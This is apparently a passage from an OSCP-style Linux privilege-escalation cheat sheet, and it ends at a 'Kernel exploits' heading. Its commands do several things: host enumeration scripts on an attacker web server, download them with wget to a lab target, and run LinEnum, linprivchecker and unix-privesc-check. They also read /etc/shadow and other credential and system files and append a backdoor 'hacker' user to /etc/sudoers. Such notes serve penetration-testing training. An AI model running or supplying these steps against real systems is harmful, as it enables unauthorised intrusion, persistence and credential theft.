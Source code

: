 ```bash
# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080; python3 -m http.server 80

# Download all files
wget http://10.11.1.111:8080/ -r; mv 10.11.1.111:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

#### Basic info

```bash
which awk perl python python3 ruby gcc cc nano vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts
cat /etc/fstab
cat /etc/crontab

# Users with login
grep -vE "nologin" /etc/passwd

# Priv Enumeration Scripts
upload /unix-privesc-check
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/linuxprivchecker.py ./
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/LinEnum.sh ./

python linprivchecker.py extended
./LinEnum.sh -t -k password
unix-privesc-check
```

#### Kernel exploits
